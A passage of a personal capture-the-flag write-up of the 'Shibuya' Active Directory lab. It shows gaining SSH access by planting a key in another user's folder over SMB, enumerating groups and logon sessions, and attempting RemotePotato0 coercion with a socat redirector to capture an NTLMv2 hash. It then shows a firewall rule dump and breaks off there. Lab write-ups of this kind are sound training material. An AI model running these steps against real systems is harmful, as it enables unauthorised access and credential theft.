drw-rw-rw-          0  Wed Apr  9 01:09:45 2025 ..
drw-rw-rw-          0  Wed Apr  9 00:36:27 2025 Administrator
drw-rw-rw-          0  Sat Feb 15 15:48:20 2025 All Users
drw-rw-rw-          0  Sat Feb 15 15:49:12 2025 Default
drw-rw-rw-          0  Sat Feb 15 15:48:20 2025 Default User
-rw-rw-rw-        174  Sat Feb 15 15:46:52 2025 desktop.ini
drw-rw-rw-          0  Wed Apr  9 00:30:42 2025 nigel.mills
drw-rw-rw-          0  Sat Feb 15 06:49:31 2025 Public
drw-rw-rw-          0  Tue Feb 18 19:36:45 2025 simon.watson
# cd simon.watson
# ls
drw-rw-rw-          0  Tue Feb 18 19:36:45 2025 .
drw-rw-rw-          0  Sun Feb 16 10:50:59 2025 ..
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 AppData
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Application Data
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Cookies
drw-rw-rw-          0  Wed Apr  9 01:06:32 2025 Desktop
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Documents
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Downloads
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Favorites
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Links
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Local Settings
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Music
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 My Documents
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 NetHood
-rw-rw-rw-     262144  Sun Feb 16 10:42:05 2025 NTUSER.DAT
-rw-rw-rw-          0  Sun Feb 16 10:42:05 2025 ntuser.dat.LOG1
-rw-rw-rw-          0  Sun Feb 16 10:42:05 2025 ntuser.dat.LOG2
-rw-rw-rw-      65536  Sun Feb 16 10:42:08 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TM.blf
-rw-rw-rw-     524288  Sun Feb 16 10:42:05 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000001.regtrans-ms
-rw-rw-rw-     524288  Sun Feb 16 10:42:05 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000002.regtrans-ms
-rw-rw-rw-         20  Tue Feb 18 19:30:58 2025 ntuser.ini
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Pictures
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 PrintHood
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Recent
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Saved Games
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 SendTo
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Start Menu
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Templates
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Videos
# put test.txt
# ls
drw-rw-rw-          0  Wed Nov 18 04:22:58 2026 .
drw-rw-rw-          0  Sun Feb 16 10:50:59 2025 ..
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 AppData
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Application Data
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Cookies
drw-rw-rw-          0  Wed Apr  9 01:06:32 2025 Desktop
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Documents
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Downloads
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Favorites
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Links
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Local Settings
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Music
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 My Documents
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 NetHood
-rw-rw-rw-     262144  Sun Feb 16 10:42:05 2025 NTUSER.DAT
-rw-rw-rw-          0  Sun Feb 16 10:42:05 2025 ntuser.dat.LOG1
-rw-rw-rw-          0  Sun Feb 16 10:42:05 2025 ntuser.dat.LOG2
-rw-rw-rw-      65536  Sun Feb 16 10:42:08 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TM.blf
-rw-rw-rw-     524288  Sun Feb 16 10:42:05 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000001.regtrans-ms
-rw-rw-rw-     524288  Sun Feb 16 10:42:05 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000002.regtrans-ms
-rw-rw-rw-         20  Tue Feb 18 19:30:58 2025 ntuser.ini
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Pictures
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 PrintHood
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Recent
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Saved Games
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 SendTo
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Start Menu
drw-rw-rw-          0  Sun Feb 16 10:42:06 2025 Templates
-rw-rw-rw-          3  Wed Nov 18 04:22:59 2026 test.txt
drw-rw-rw-          0  Sun Feb 16 10:42:05 2025 Videos
```

also we have write priveliege on Simon.Watson dir then we can capture the user flag from the desktop , 

we can enumerate the group emmeber ship of the user using `impacket-net` which use `SAMR` protocol which uses same protocol as nxc `--user` enumeration on the smb protocol : ) i would be wrtiting an good blog on this future really cool concept !

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ impacket-net -k -no-pass -dc-ip 10.129.234.42 shibuya.vl/Simon.Watson@AWSJPDC0522.shibuya.vl group 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Enumerating groups ..
  1. Enterprise Read-only Domain Controllers
  2. Domain Admins
  3. Domain Users
  4. Domain Guests
  5. Domain Computers
  6. Domain Controllers
  7. Schema Admins
  8. Enterprise Admins
  9. Group Policy Creator Owners
  10. Read-only Domain Controllers
  11. Cloneable Domain Controllers
  12. Protected Users
  13. Key Admins
  14. Enterprise Key Admins
  15. DnsUpdateProxy
  16. t1_admins
  17. t2_admins
  18. t0_admins
  19. shibuya
  20. ssh
  21. t3_admins


```
as we can  see we are on ssh group so we can  try to first generate an key with `ssh-keygen` 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ ssh-keygen -t ed25519 -f ~/.ssh/shibuya_simon -N '' -C simon
Generating public/private ed25519 key pair.
Your identification has been saved in /home/penguin/.ssh/shibuya_simon
Your public key has been saved in /home/penguin/.ssh/shibuya_simon.pub
The key fingerprint is:
SHA256:jCWGHjMO7vNbm0OWXocSHFt4uBCWJI7SAXawfrdYOG8 simon
The key's randomart image is:
+--[ED25519 256]--+
|.++o+o o         |
|.+o+o.+ o        |
|o.+ =oo*.        |
|o. +.===         |
| ..+oo.oS.       |
| .. * * o .      |
|  o. E.o .       |
|   o..oo         |
|    o.o.         |
+----[SHA256]-----+
```

then create an dir in on the and upload  the public key  from the impacket-smbclinet shell
```bash
# cd simon.watson
# mkdir .ssh
# cd .ssh
# put authorized_keys
# ls
drw-rw-rw-          0  Wed Nov 18 04:31:00 2026 .
drw-rw-rw-          0  Wed Nov 18 04:30:50 2026 ..
-rw-rw-rw-         87  Wed Nov 18 04:31:00 2026 authorized_keys
# exit
```

then we can authenticate as the simon
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ ssh -i ~/.ssh/shibuya_simon -o PreferredAuthentications=publickey Simon.Watson@AWSJPDC0522.shibuya.vl
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Microsoft Windows [Version 10.0.20348.3453]
(c) Microsoft Corporation. All rights reserved.

shibuya\simon.watson@AWSJPDC0522 C:\Users\simon.watson>
shibuya\simon.watson@AWSJPDC0522 C:\Users\simon.watson>whoami
shibuya\simon.watson

shibuya\simon.watson@AWSJPDC0522 C:\Users\simon.watson>
```

## Pivoting

checking for any useful priv escalation vectors doesnt seems to have one here yet

```bash
PS C:\Users\simon.watson> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
PS C:\Users\simon.watson> systeminfo                                                                                                                                                 
Program 'systeminfo.exe' failed to run: Access is deniedAt line:1 char:1                                                                                                             
+ systeminfo                                                                                                                                                                         
+ ~~~~~~~~~~.                                                                                                                                                                        
At line:1 char:1                                                                                                                                                                     
+ systeminfo                                                                                                                                                                         
+ ~~~~~~~~~~                                                                                                                                                                         
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException                                                                                                
    + FullyQualifiedErrorId : NativeCommandFailed                                                                                                                                    

PS C:\Users\simon.watson> sysinfo                                                                                                                                                    
PS C:\Users\simon.watson> whoami /all 

USER INFORMATION
----------------

User Name            SID
==================== ===========================================
shibuya\simon.watson S-1-5-21-87560095-894484815-3652015022-1409


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                         Attributes                                        
=========================================== ================ =========================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
SHIBUYA\shibuya                             Group            S-1-5-21-87560095-894484815-3652015022-1108 Mandatory group, Enabled by default, Enabled group
SHIBUYA\ssh                                 Group            S-1-5-21-87560095-894484815-3652015022-3101 Mandatory group, Enabled by default, Enabled group
SHIBUYA\t2_admins                           Group            S-1-5-21-87560095-894484815-3652015022-1104 Mandatory group, Enabled by default, Enabled group
Service asserted identity                   Well-known group S-1-18-2                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

we can check for any logon session , 
```bash
PS C:\Users\simon.watson> qwinsta *
No session exists for *
```

we know qwinsta doesnt runas as in winrm session , so same as how we did on the https://fxf61.github.io/penguin-portfolio/writeups/rebound/box we can use `RunasC.exe` to enumerate any logged on user

```bash
PS C:\Users\simon.watson> .\RunasCs.exe Fake Fake qwinsta -l 9

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 rdp-tcp#0         nigel.mills               1  Active
 console                                     2  Conn                        
 rdp-tcp                       
```

## Coercion - RemotePotato0

we can see the nigel.mills as the user we can try to coerce !
Running the socat command we will forwarding incoming traffic back to the RPC listener
`Terminal 1`
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:10.129.234.42:9998 
[sudo] password for penguin: 
```
Now we gonna use 2nd module from remotepoatoe.exe which capture the NTLMv2 hash and with potaote trigger
`Terminal 2`
```bash
PS C:\Users\simon.watson> .\RemotePotato0.exe -m 2 -x 10.10.17.130 -p 9998 -s 1                                                                                                
[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on (null) to your victim machine on port 9998                                            
[*] Example Network redirector:               
        sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:{{ThisMachineIp}}:9998
[*] Starting the RPC server to capture the credentials hash from the user authentication!!                                      
[*] RPC relay server listening on port 9997 ...                       
[*] Spawning COM object in the session: 1                                                                                                                                            
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] Starting RogueOxidResolver RPC Server listening on port 9998 ... 
[*] IStoragetrigger written: 106 bytes
```

it seems to be stuck or doesnt receive any NTLMv2 hash we can inspect the firwall rule  if any inbound rule blocking it

as fromt he rule names we can see see `Custom TCP Allow` seems to be an non-default one we can check the rules
```bash
PS C:\Users\simon.watson> netsh advfirewall firewall show rule name=all verbose | findstr /C:"Local Setting" /B /C:"Rule Name"
Rule Name:                            Microsoft Edge (mDNS-In)
Rule Name:                            Custom TCP Allow
Rule Name:                            @{Microsoft.Windows.SecHealthUI_10.0.20348.2849_neutral__cw5n1h2txyewy?ms-resource://Microsoft.Windows.SecHealthUI/resources/PackageDisplayName}
Rule Name:                            @{Microsoft.Windows.SecHealthUI_10.0.20348.2849_neutral__cw5n1h2txyewy?ms-resource://Microsoft.Windows.SecHealthUI/resources/PackageDisplayName}
Rule Name:                            @{Microsoft.Windows.PeopleExperienceHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.PeopleExperienceHost/resources/PkgDisplayName}
Rule Name:                            @{Microsoft.Windows.NarratorQuickStart_10.0.20348.1_neutral_neutral_8wekyb3d8bbwe?ms-resource://Microsoft.Windows.NarratorQuickStart/Resources/AppDisplayName}
Rule Name:                            @{Microsoft.Windows.Apprep.ChxApp_1000.20348.1.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Apprep.ChxApp/resources/DisplayName}
Rule Name:                            @{Microsoft.Win32WebViewHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Windows.Win32WebViewHost/resources/DisplayName}
Rule Name:                            @{Microsoft.Win32WebViewHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Windows.Win32WebViewHost/resources/DisplayName}
Rule Name:                            @{Microsoft.LockApp_10.0.20348.1_neutral__cw5n1h2txyewy?ms-resource://Microsoft.LockApp/resources/AppDisplayName}
Rule Name:                            @{Microsoft.AccountsControl_10.0.20348.1_neutral__cw5n1h2txyewy?ms-resource://Microsoft.AccountsControl/Resources/DisplayName}
Rule Name:                            @{Microsoft.Windows.Search_1.15.0.20348_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Search/resources/PackageDisplayName}     
Rule Name:                            @{Microsoft.Windows.Search_1.15.0.20348_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Search/resources/PackageDisplayName}     
Rule Name:                            @{Microsoft.Windows.ShellExperienceHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.ShellExperienceHost/resources/PkgDisplayName}
Rule Name:                            @{Microsoft.Windows.StartMenuExperienceHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.StartMenuExperienceHost/StartMenuExperienceHost/PkgDisplayName}
Rule Name:                            @{Microsoft.Windows.StartMenuExperienceHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.StartMenuExperienceHost/StartMenuExperienceHost/PkgDisplayName}
Rule Name:                            Windows Feature Experience Pack
Rule Name:                            @{Microsoft.Windows.OOBENetworkCaptivePortal_10.0.19580.1000_neutral__cw5n1h2txyewy?ms-resource://Microsoft.Windows.OOBENetworkCaptivePortal/Resources/AppDisplayName}
Rule Name:                            @{Microsoft.AAD.BrokerPlugin_1000.19580.1000.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.AAD.BrokerPlugin/resources/PackageDisplayName}
Rule Name:                            @{Microsoft.AAD.BrokerPlugin_1000.19580.1000.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.AAD.BrokerPlugin/resources/PackageDisplayName}
Rule Name:                            @{Microsoft.Windows.CloudExperienceHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.CloudExperienceHost/resources/appDescription}
Rule Name:                            @{Microsoft.Windows.CloudExperienceHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.CloudExperienceHost/resources/appDescription}
Rule Name:                            OpenSSH SSH Server (sshd)
Rule Name:                            Certification Authority Enrollment and Management Protocol (CERTSVC-RPC-EPMAP-IN)
Rule Name:                            Certification Authority Enrollment and Management Protocol (CERTSVC-TCP-OUT)
Rule Name:                            Certification Authority Enrollment and Management Protocol (CERTSVC-RPC-NP-IN)
Rule Name:                            Certification Authority Enrollment and Management Protocol (CERTSVC-DCOM-IN)
Rule Name:                            Certification Authority Enrollment and Management Protocol (CERTSVC-RPC-TCP-IN)
Rule Name:                            File Server Remote Management (SMB-In)
Rule Name:                            File Server Remote Management (WMI-In)
Rule Name:                            File Server Remote Management (DCOM-In)
Rule Name:                            RPC Endpoint Mapper (TCP, Incoming)
Rule Name:                            DNS (TCP, Incoming)
Rule Name:                            All Outgoing (UDP)
Rule Name:                            RPC (TCP, Incoming)
Rule Name:                            DNS (UDP, Incoming)
Rule Name:                            All Outgoing (TCP)
Rule Name:                            Active Directory Domain Controller - NetBIOS name resolution (UDP-In)
Rule Name:                            Microsoft Key Distribution Service (RPC EPMAP)
Rule Name:                            Active Directory Domain Controller -  Echo Request (ICMPv6-In)
Rule Name:                            Active Directory Domain Controller -  Echo Request (ICMPv4-In)
Rule Name:                            Active Directory Domain Controller - W32Time (NTP-UDP-In)
Rule Name:                            Active Directory Domain Controller (TCP-Out)
Rule Name:                            Active Directory Domain Controller - Secure LDAP (TCP-In)
Rule Name:                            Active Directory Domain Controller (RPC-EPMAP)
Rule Name:                            Active Directory Web Services (TCP-Out)
Rule Name:                            Active Directory Domain Controller -  Echo Request (ICMPv6-Out)
Rule Name:                            Active Directory Domain Controller -  Echo Request (ICMPv4-Out)
Rule Name:                            Active Directory Domain Controller - Secure LDAP for Global Catalog (TCP-In)
Rule Name:                            Active Directory Domain Controller - LDAP for Global Catalog (TCP-In)
Rule Name:                            Active Directory Domain Controller - LDAP (UDP-In)
Rule Name:                            Active Directory Domain Controller - LDAP (TCP-In)
Rule Name:                            Kerberos Key Distribution Center - PCR (UDP-In)
Rule Name:                            Active Directory Domain Controller - SAM/LSA (NP-UDP-In)
Rule Name:                            Active Directory Domain Controller (UDP-Out)
Rule Name:                            Active Directory Domain Controller (RPC)
Rule Name:                            File Replication (RPC)
Rule Name:                            DFS Replication (RPC-In)
Rule Name:                            Active Directory Domain Controller - SAM/LSA (NP-TCP-In)
Rule Name:                            File Replication (RPC-EPMAP)
Rule Name:                            DFS Replication (RPC-EPMAP)
Rule Name:                            DFS Management (WMI-In)
Rule Name:                            DFS Management (SMB-In)
Rule Name:                            Kerberos Key Distribution Center - PCR (TCP-In)
Rule Name:                            Active Directory Web Services (TCP-In)
Rule Name:                            DFS Management (DCOM-In)
Rule Name:                            DFS Management (TCP-In)
Rule Name:                            Microsoft Key Distribution Service (RPC)
Rule Name:                            Kerberos Key Distribution Center (UDP-In)
Rule Name:                            Kerberos Key Distribution Center (TCP-In)
Rule Name:                            @{Microsoft.AccountsControl_10.0.20348.1_neutral__cw5n1h2txyewy?ms-resource://Microsoft.AccountsControl/Resources/DisplayName}
Rule Name:                            @{Microsoft.LockApp_10.0.20348.1_neutral__cw5n1h2txyewy?ms-resource://Microsoft.LockApp/resources/AppDisplayName}
Rule Name:                            @{Microsoft.Win32WebViewHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Windows.Win32WebViewHost/resources/DisplayName}
Rule Name:                            @{Microsoft.Win32WebViewHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Windows.Win32WebViewHost/resources/DisplayName}
Rule Name:                            @{Microsoft.Windows.Apprep.ChxApp_1000.20348.1.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Apprep.ChxApp/resources/DisplayName}
Rule Name:                            @{Microsoft.Windows.NarratorQuickStart_10.0.20348.1_neutral_neutral_8wekyb3d8bbwe?ms-resource://Microsoft.Windows.NarratorQuickStart/Resources/AppDisplayName}
Rule Name:                            @{Microsoft.Windows.PeopleExperienceHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.PeopleExperienceHost/resources/PkgDisplayName}
Rule Name:                            @{Microsoft.Windows.SecHealthUI_10.0.20348.2849_neutral__cw5n1h2txyewy?ms-resource://Microsoft.Windows.SecHealthUI/resources/PackageDisplayName}
Rule Name:                            @{Microsoft.Windows.SecHealthUI_10.0.20348.2849_neutral__cw5n1h2txyewy?ms-resource://Microsoft.Windows.SecHealthUI/resources/PackageDisplayName}
Rule Name:                            Custom Block TCP
Rule Name:                            Network Discovery (UPnP-Out)
Rule Name:                            Network Discovery (NB-Datagram-Out)
Rule Name:                            Network Discovery (NB-Name-Out)
Rule Name:                            Network Discovery (LLMNR-UDP-In)
Rule Name:                            Network Discovery (UPnPHost-Out)
Rule Name:                            Network Discovery (NB-Name-In)
Rule Name:                            Network Discovery (WSD EventsSecure-Out)
Rule Name:                            Network Discovery (LLMNR-UDP-Out)
Rule Name:                            Network Discovery (SSDP-In)
Rule Name:                            Network Discovery (NB-Datagram-In)
Rule Name:                            Network Discovery (UPnP-In)
Rule Name:                            Network Discovery (Pub WSD-Out)
Rule Name:                            Network Discovery (WSD Events-Out)
Rule Name:                            Network Discovery (WSD EventsSecure-In)
Rule Name:                            Network Discovery (SSDP-Out)
Rule Name:                            Network Discovery (WSD Events-In)
Rule Name:                            Network Discovery (WSD-Out)
Rule Name:                            Network Discovery (Pub-WSD-In)
Rule Name:                            Network Discovery (WSD-In)
Rule Name:                            @{Microsoft.Windows.Search_1.15.0.20348_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Search/resources/PackageDisplayName}     
Rule Name:                            @{Microsoft.Windows.Search_1.15.0.20348_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Search/resources/PackageDisplayName}     
Rule Name:                            @{Microsoft.Windows.ShellExperienceHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.ShellExperienceHost/resources/PkgDisplayName}
Rule Name:                            @{Microsoft.Windows.StartMenuExperienceHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.StartMenuExperienceHost/StartMenuExperienceHost/PkgDisplayName}
Rule Name:                            @{Microsoft.Windows.StartMenuExperienceHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.StartMenuExperienceHost/StartMenuExperienceHost/PkgDisplayName}
Rule Name:                            Windows Feature Experience Pack
Rule Name:                            @{Microsoft.Windows.OOBENetworkCaptivePortal_10.0.19580.1000_neutral__cw5n1h2txyewy?ms-resource://Microsoft.Windows.OOBENetworkCaptivePortal/Resources/AppDisplayName}
Rule Name:                            @{Microsoft.AAD.BrokerPlugin_1000.19580.1000.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.AAD.BrokerPlugin/resources/PackageDisplayName}
Rule Name:                            @{Microsoft.AAD.BrokerPlugin_1000.19580.1000.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.AAD.BrokerPlugin/resources/PackageDisplayName}
Rule Name:                            @{Microsoft.Windows.CloudExperienceHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.CloudExperienceHost/resources/appDescription}
Rule Name:                            @{Microsoft.Windows.CloudExperienceHost_10.0.20348.1_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.CloudExperienceHost/resources/appDescription}
Rule Name:                            Windows Media Player Network Sharing Service (TCP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (qWave-UDP-In)
Rule Name:                            Windows Media Player (TCP-Out)
Rule Name:                            Windows Media Player (UDP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (HTTP-Streaming-In)
Rule Name:                            Windows Media Player Network Sharing Service (Streaming-UDP-Out)
Rule Name:                            Windows Media Player x86 (UDP-Out)
Rule Name:                            Windows Media Player x86 (TCP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (UDP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (TCP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (qWave-TCP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (qWave-UDP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (qWave-UDP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (HTTP-Streaming-In)
Rule Name:                            Windows Media Player Network Sharing Service (UDP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (HTTP-Streaming-Out)
Rule Name:                            Windows Media Player Network Sharing Service (SSDP-In)
Rule Name:                            Windows Media Player Network Sharing Service (UPnP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (Streaming-TCP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (qWave-TCP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (SSDP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (Streaming-UDP-In)
Rule Name:                            Windows Media Player Network Sharing Service (HTTP-Streaming-Out)
Rule Name:                            Windows Media Player Network Sharing Service (Streaming-UDP-In)
Rule Name:                            Windows Media Player Network Sharing Service (TCP-In)
Rule Name:                            Windows Media Player Network Sharing Service (UDP-In)
Rule Name:                            Windows Media Player x86 (UDP-In)
Rule Name:                            Windows Media Player Network Sharing Service (qWave-TCP-In)
Rule Name:                            Windows Media Player Network Sharing Service (TCP-In)
Rule Name:                            Windows Media Player Network Sharing Service (UDP-In)
Rule Name:                            Windows Media Player Network Sharing Service (UPnPHost-Out)
Rule Name:                            Windows Media Player Network Sharing Service (Streaming-UDP-Out)
Rule Name:                            Windows Media Player Network Sharing Service (UPnP-In)
Rule Name:                            Windows Media Player Network Sharing Service (qWave-UDP-In)
Rule Name:                            Windows Media Player Network Sharing Service (qWave-TCP-In)
Rule Name:                            Windows Media Player Network Sharing Service (Streaming-TCP-Out)
Rule Name:                            Windows Media Player (UDP-In)
Rule Name:                            mDNS (UDP-In)
Rule Name:                            Core Networking Diagnostics - ICMP Echo Request (ICMPv6-In)
Rule Name:                            Core Networking - Group Policy (TCP-Out)
Rule Name:                            Routing and Remote Access (GRE-Out)
Rule Name:                            Core Networking Diagnostics - ICMP Echo Request (ICMPv4-In)
Rule Name:                            BranchCache Peer Discovery (WSD-Out)
Rule Name:                            mDNS (UDP-In)
Rule Name:                            Core Networking - Time Exceeded (ICMPv6-In)
Rule Name:                            File and Printer Sharing (LLMNR-UDP-Out)
Rule Name:                            Netlogon Service Authz (RPC)
Rule Name:                            COM+ Network Access (DCOM-In)
Rule Name:                            Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-Out)
Rule Name:                            Distributed Transaction Coordinator (TCP-In)
Rule Name:                            BranchCache Content Retrieval (HTTP-In)
Rule Name:                            DIAL protocol server (HTTP-In)
Rule Name:                            Secure Socket Tunneling Protocol (SSTP-In)
Rule Name:                            Core Networking Diagnostics - ICMP Echo Request (ICMPv4-In)
Rule Name:                            Core Networking - Multicast Listener Report (ICMPv6-In)
Rule Name:                            Windows Device Management Sync Client (TCP out)
Rule Name:                            File and Printer Sharing (LLMNR-UDP-In)
Rule Name:                            Core Networking - Multicast Listener Query (ICMPv6-In)
Rule Name:                            File and Printer Sharing (NB-Datagram-In)
Rule Name:                            Network Discovery (WSD-In)
Rule Name:                            Core Networking - Multicast Listener Report v2 (ICMPv6-In)
Rule Name:                            File and Printer Sharing (NB-Name-Out)
Rule Name:                            Cast to Device streaming server (RTSP-Streaming-In)
Rule Name:                            Core Networking - Group Policy (NP-Out)
Rule Name:                            Core Networking - Internet Group Management Protocol (IGMP-In)
Rule Name:                            Network Discovery (Pub-WSD-In)
Rule Name:                            Cast to Device streaming server (HTTP-Streaming-In)
Rule Name:                            Cast to Device streaming server (HTTP-Streaming-In)
Rule Name:                            Core Networking Diagnostics - ICMP Echo Request (ICMPv6-Out)
Rule Name:                            Remote Event Log Management (RPC-EPMAP)
Rule Name:                            Core Networking - IPv6 (IPv6-Out)
Rule Name:                            Performance Logs and Alerts (DCOM-In)
Rule Name:                            Remote Desktop - User Mode (UDP-In)
Rule Name:                            Remote Desktop - User Mode (TCP-In)
Rule Name:                            BranchCache Content Retrieval (HTTP-Out)
Rule Name:                            Core Networking - Neighbor Discovery Solicitation (ICMPv6-Out)
Rule Name:                            Network Discovery (WSD-Out)
Rule Name:                            Network Discovery (WSD Events-In)
Rule Name:                            Inbound Rule for Remote Shutdown (RPC-EP-In)
Rule Name:                            Performance Logs and Alerts (TCP-In)
Rule Name:                            Routing and Remote Access (PPTP-Out)
Rule Name:                            Software Load Balancer Multiplexer (TCP-In)
Rule Name:                            Performance Logs and Alerts (DCOM-In)
Rule Name:                            Cast to Device streaming server (RTCP-Streaming-In)
Rule Name:                            mDNS (UDP-Out)
Rule Name:                            Core Networking Diagnostics - ICMP Echo Request (ICMPv4-Out)
Rule Name:                            File and Printer Sharing (Echo Request - ICMPv6-In)
Rule Name:                            Windows Remote Management (HTTP-In)
Rule Name:                            Network Discovery (SSDP-Out)
